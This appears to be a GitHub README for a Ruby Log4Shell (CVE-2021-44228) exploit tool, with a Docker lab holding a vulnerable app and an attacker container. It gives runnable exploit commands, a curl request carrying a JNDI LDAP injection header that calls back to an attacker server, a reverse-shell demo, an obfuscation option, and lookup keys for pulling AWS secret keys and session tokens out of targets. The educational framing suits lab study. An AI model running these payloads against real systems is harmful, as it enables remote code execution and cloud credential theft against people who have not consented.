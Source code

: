 ## Log4j RCE Vulnerability (CVE-2021-44228)
This is for educational purposes only. This contains docker files to create the testing environment for this exploit

### Building and running the testing environment
Start the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app) and test server
```bash
docker-compose up
```
### Exploitation
Open a new terminal and get an access to the test server
```bash
docker exec -it log4j_attacker bash
```
#### Full Exploitation
```bash
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name'
```
##### Example:
![Full Exploitation](./attachments/full_rce.gif)

#### Serve the payload
Start the HTTP and LDAP Servers
```bash
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name' -s
```

Open a new terminal in the test server
```bash
docker exec -it log4j_attacker bash
# inside the test server
curl http://10.10.10.2:8080 -H 'X-Api-Version: ${jndi:ldap://10.10.10.3:1389/${sys:os.name}}'
```
##### Example:
Reverse shell
![Serve only](./attachments/serve.gif)

Getting information from callback(Note: `-c 'touch /dev/shm/vulnerable' is not needed`):
![Info](./attachments/info.gif)

### Options
```
# ./log4j.rb --help
Usage: ./log4j.rb -t [Target] -a [Attacker IP] -l [LDAP Port] -h [HTTP Port]

Options:
    -t, --target Target              Target Host to check. Default: http://127.0.0.1:8080
    -a, --attacker Attacker          IP of LDAP and HTTP servers. Default: 0.0.0.0
    -l, --ldap LDAP_PORT             LDAP Port to use. Default: 53
    -h, --http HTTP_PORT             HTTP Port to use. Default: 1010
    -c, --command Command            Command to execute. Default: "touch /dev/shm/log4j_vulnerable"
    -s, --serve_only                 [OPTIONAL] Starts HTTP and LDAP Server, then send JNDI payload manually
    -i, --info_extract Info_key      [OPTIONAL] Extracts information from the target using log4j keywords. Default is none.Possible inputs but not limited to below:
                                        ${hostName}
                                        ${sys:user.name}
                                        ${sys:user.home}
                                        ${sys:user.dir}
                                        ${sys:java.home}
                                        ${sys:java.vendor}
                                        ${sys:java.version}
                                        ${sys:java.vendor.url}
                                        ${sys:java.vm.version}
                                        ${sys:java.vm.vendor}
                                        ${sys:java.vm.name}
                                        ${sys:os.name}
                                        ${sys:os.arch}
                                        ${sys:os.version}
                                        ${env:JAVA_VERSION}
                                        ${env:AWS_SECRET_ACCESS_KEY}
                                        ${env:AWS_SESSION_TOKEN}
                                        ${env:AWS_SHARED_CREDENTIALS_FILE}
                                        ${env:AWS_WEB_IDENTITY_TOKEN_FILE}
                                        ${env:AWS_PROFILE}
                                        ${env:AWS_CONFIG_FILE}
                                        ${env:AWS_ACCESS_KEY_ID}
    -o, --obfuscate                  [OPTIONAL] Obfuscates the JNDI Payload
        --help                       Print options

```
### Testing outside the container
- Make sure to do `bundle install` first to install the dependency gems

### Credits
- [christophetd](https://github.com/christophetd) for the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app)
- [alexandre-lavoie's](https://github.com/alexandre-lavoie) [code](https://github.com/alexandre-lavoie/python-log4rce) for my reference while working on this project

### Notes
This is for educational purposes only. Please use responsibly if you want to test it.
